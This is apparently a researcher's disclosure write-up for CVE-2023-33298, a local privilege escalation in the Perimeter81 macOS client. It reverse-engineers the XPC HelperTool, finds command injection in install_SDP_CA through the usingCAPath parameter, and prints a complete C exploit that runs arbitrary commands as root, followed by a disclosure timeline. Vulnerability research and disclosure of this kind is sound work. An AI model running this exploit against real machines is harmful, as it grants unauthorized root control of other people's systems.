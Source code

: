 ```yaml
---
title: CVE-2023-33298 - Perimeter81 Local Privilege Escalation
description: Exploiting XPC HelperTool to gain LPE
date: 2023-06-30T00:38:03.147668+02:00
toc: true
tags:
    - reverse-engineering
    - macos
    - cve
refs:
    - https://perimeter81.com
    - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-33298
    - https://www.kb.cert.org/vuls/id/653767
draft: false
---
```


# Introduction

Today we will be analyzing CVE-2023-33298 which is Local Privilege Escalation inside the Perimeter81 macOS application. We will be exploiting XPC service misconfiguration along with the Command Injection vulnerability 
to gain `root` privileges.

# Analysis

Perimeter81 adds an entry to _LaunchDaemons_, and we can examine the content of the `com.perimeter81.osx.HelperTool.plist` located inside `/Library/LaunchDaemons/` directory.

![LaunchDaemon plist file](../images/perimeter_helper_plist_file.png)

We can see that the key for `MachServices` is dictionary containing `com.perimeter81.osx.HelperTool`. This is the name of mach service which is exposed by the 
_com.perimeter81.osx.HelperTool_ binary.

If we now load `/Library/PrivilegedHelperTools/com.perimeter81.osx.HelperTool` inside the Hopper and search for `xpc_connection_create_mach_service` we can 
confirm that the function is called with `com.perimeter81.osx.HelperTool` as first argument.

![Mach Service Creation](../images/perimeter_service_creation.png)

From the image, we can also see that it calls `xpc_connection_set_event_handler` with `&var_40`. We can read [documentation](https://clang.llvm.org/docs/Block-ABI-Apple.html) and 
conlude that the structure contains `isa` pointer (which type of block is this), followed by two ints(flags and reserved) and finally `void (*invoke)(void *, ...);` function pointer 
which points to the actualy compiled block body.

Inside the disassembly, we can see that `*(&var_40 + 0x10) = sub_1002169d7;` points to `sub_1002169d7`. Let's now examine this function.

![Main connection handler](../images/perimeter_first_handler.png)

Inside the `else` we can see another call to `xpc_connection_set_event_handler` with the block that has `invoke` pointer set to `sub_100216a98`. Double clicking on this sub shows the following code.

![Peer connection handler](../images/perimeter_second_handler.png)

Based on this function we can conclude the following:

* We need to send the dictionary
* `type` inside the dictionary needs to be `rpc` or `helper_tool_rpc`.
* Function `sub_100216d6c` is called in multiple branches so we will check what that is
* We can also see that we have a line `r12 = xpc_dictionary_get_string(r13, "rpc");` followed by the check whether _r12_ is equal to *start_connection* so we can conclude that the key _rpc_ will contain some kind of function what to do.

Inspecting the `sub_100216d6c` function shows that it calls `-[SDHelperTool handleTargetServiceCommand:withRequest:withReply:]`.

![HandleTargetService](../images/perimeter_handletarget.png)

Since this method is a bit bigger, we will show only the beginning and the end of the function which are interesting.

![Check for target service](../images/perimeter_check_for_params.png)

We can see that it tries to extract the `parameters` and `target_service` keys. If `target_service` is NULL, it jumps to `loc_10020a119`. 

![Creation of generalInvoker selector](../images/perimeter_generalInvoker_create.png)

We can see that it saves `@selector(generalInvoker)` inside the `rax` register and then jumps back to `loc_10020a1c0`. `loc_10020a1c0` just calls `handleXPCServiceCommand:withParameters:withReply`.

![Calling handleXPCServiceCommand](../images/perimeter_handle_xpc.png)

If we search for "generalInvoker" in Hopper we can see that we have a match for `-[SDHelperTool setup_GeneralInvoker]` which allocates new object of class *SDHelperTool_InvokerGeneral*. 

![setup_GeneralInvoker](../images/perimeter_helpertool_general_invoker.png)

Searching for `DHelperTool_InvokerGeneral` reveals a lot of methods. After digging around a bit, I have found `install_SDP_CA:withReply:` which calls `security add-trusted-cert -d -r trustRoot -k /Library/Keychains/System.keychain %@` with the value from dictionary under the key `usingCAPath`. This is typical command injection where we can simply append `;` followed by the command we want to execute.

![Searching for DHelperTool_InvokerGeneral](../images/perimeter_invokergeneral_search.png)

![install_SDP_CA method](../images/perimeter_install_sdpca.png)

So to recap, our exploit should do the following:

* call `xpc_connection_create_mach_service` with `com.perimeter81.osx.HelperTool` as a name
* create a dictionary for __properties__ with the key __usingCAPath__ and value as __; some command to run as root__
* create another dictionary that will be our message with `type` as `helper_tool_rpc`, `rpc` as `install_SDP_CA`, and key `parameters` set to the previous dictionary
* send the message

# Full exploit

Full exploit looks like the following:

```c
#import <Foundation/Foundation.h>

#define NAME "com.perimeter81.osx.HelperTool"

int main(int argc, const char **argv) {
    if (argc != 2) {
        printf("missing cmd to execute\n");
        exit(1);
    }

    xpc_connection_t conn = xpc_connection_create_mach_service(NAME, NULL, 0);
    xpc_connection_set_event_handler(conn, ^(xpc_object_t object){
        NSLog(@"client received event: %s", xpc_copy_description(object));
    });
    xpc_connection_resume(conn);

    const char *c = argv[1];

    char cmd[250];
    sprintf(cmd, "; %s", c);

    // create dictionary to hold our parameters
    // method name and its parameters
    xpc_object_t params = xpc_dictionary_create(NULL, NULL, 0);
    xpc_dictionary_set_string(params, "usingCAPath", cmd);

    // create dictionary to send over xpc
    xpc_object_t message = xpc_dictionary_create(NULL, NULL, 0);
    xpc_dictionary_set_string(message, "type", "helper_tool_rpc");
    xpc_dictionary_set_string(message, "rpc", "install_SDP_CA");
    xpc_dictionary_set_value(message, "parameters", params);

    xpc_connection_send_message_with_reply(conn, message, dispatch_get_main_queue(), ^(xpc_object_t object){
        NSLog(@"Executed cmd: \"%s\"\n", c);
    });


    // create run loop so we can get async result for our command, otherwise the exploit would exit after sending the 
    // message
    dispatch_main();

    return 0;
}

```

![Running the exploit](../images/perimeter_exploit.png)

# Timeline

| Date            | Action                                                                      |
| --------------- | -----------                                                                 |
| 17 March 2023   | Sent report to Perimeter81                                                  |
| 21th March 2023 | Asked for an update, no reply                                               |
| 10th April 2023 | Asked for an update once more, got response that it was wrongly sidetracked |
| 19th April 2023 | Sent mail to see whether they have investigated it and working on it        |
| 10th May 2023   | Another mail and got no response                                            |
| 16th May 2023   | Contacted VINCE to coordinate disclosure                                    |

VINCE tried to contact them multiple times without success, so after more than three months I have decided to disclose the vulnerability.

## Update
Perimeter81 released fix for this in the version [10.1.2.318](https://support.perimeter81.com/docs/macos-agent-release-notes) on the 25th of July.
